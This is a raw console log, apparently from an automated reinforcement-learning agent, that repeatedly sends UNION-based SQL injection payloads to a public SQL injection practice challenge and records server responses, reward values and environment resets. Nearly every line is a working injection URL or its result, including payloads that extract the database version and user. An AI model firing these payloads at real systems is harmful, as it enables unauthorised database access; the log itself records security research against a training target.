Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respo

  0%|          | 1449/1000000 [8:57:43<1832:53:20,  6.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1450/1000000 [8:57:44<1379:46:19,  4.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 1451/1000000 [8:57:56<1936:35:59,  6.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 

  0%|          | 1452/1000000 [8:59:47<10602:46:39, 38.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1453/1000000 [8:59:48<7519:34:40, 27.11s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1454/1000000 [8:59:49<5343:59:19, 19.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1455/1000000 [8:59:50<3823:03:12, 13.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Ser

  0%|          | 1456/1000000 [9:00:57<8282:26:56, 29.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1457/1000000 [9:00:58<5872:20:22, 21.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1458/1000000 [9:00:59<4192:38:51, 15.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1459/1000000 [9:01:00<3011:34:23, 10.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1460/1000000 [9:01:01<2186:11:16,  7.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1461/1000000 [9:01:02<1616:12:22,  5.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1462/1000000 [9:01:04<1297:48:57,  4.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1463/1000000 [9:01:06<1076:12:00,  3.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1464/1000000 [9:01:07<831:29:55,  3.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1465/1000000 [9:01:08<665:22:25,  2.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 1466/1000000 [9:01:20<1430:04:43,  5.16s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union selec

  0%|          | 1467/1000000 [9:01:33<2119:14:38,  7.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select

  0%|          | 1468/1000000 [9:01:42<2263:26:58,  8.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1469/1000000 [9:01:43<1660:21:24,  5.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1470/1000000 [9:01:45<1312:30:18,  4.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1471/1000000 [9:01:46<996:34:34,  3.59s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--


  0%|          | 1472/1000000 [9:02:34<4668:33:42, 16.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1473/1000000 [9:02:35<3343:51:46, 12.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1474/1000000 [9:02:36<2416:58:47,  8.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1475/1000000 [9:02:36<1726:25:28,  6.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 1476/1000000 [9:04:01<8280:15:28, 29.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with diffe

  0%|          | 1477/1000000 [9:05:09<11475:46:15, 41.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server 

  0%|          | 1478/1000000 [9:05:57<11969:56:04, 43.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1479/1000000 [9:05:57<8453:34:04, 30.48s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1480/1000000 [9:05:59<6014:26:20, 21.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1481/1000000 [9:06:00<4292:02:29, 15.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1482/1000000 [9:06:00<3080:38:24, 11.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax er

  0%|          | 1483/1000000 [9:06:16<3410:58:33, 12.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select vers

  0%|          | 1484/1000000 [9:08:55<15630:39:05, 56.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1485/1000000 [9:08:56<11023:08:09, 39.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1486/1000000 [9:08:57<7792:31:37, 28.09s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1487/1000000 [9:09:03<6014:54:47, 21.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1

  0%|          | 1488/1000000 [9:09:12<4932:46:04, 17.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1489/1000000 [9:09:13<3548:46:58, 12.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1490/1000000 [9:09:14<2560:36:26,  9.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1491/1000000 [9:09:15<1869:44:46,  6.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. 

  0%|          | 1492/1000000 [9:10:22<6866:38:41, 24.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server 

  0%|          | 1493/1000000 [9:11:40<11286:33:43, 40.69s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1494/1000000 [9:11:41<7981:21:23, 28.78s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1495/1000000 [9:11:42<5739:48:10, 20.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1496/1000000 [9:11:43<4095:22:37, 14.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 1497/1000000 [9:15:24<21180:32:53, 76.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 1498/1000000 [9:16:36<20857:24:47, 75.20s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1499/1000000 [9:16:39<14855:06:27, 53.56s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1500/1000000 [9:16:40<10435:52:48, 37.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1501/1000000 [9:16:40<7381:16:21, 26.61s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server r

  0%|          | 1502/1000000 [9:17:54<11265:45:01, 40.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1503/1000000 [9:17:55<7967:42:25, 28.73s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1504/1000000 [9:17:56<5652:23:28, 20.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax e

  0%|          | 1505/1000000 [9:18:26<6485:49:21, 23.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1506/1000000 [9:18:27<4638:01:05, 16.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1507/1000000 [9:18:28<3321:37:50, 11.98s/it]

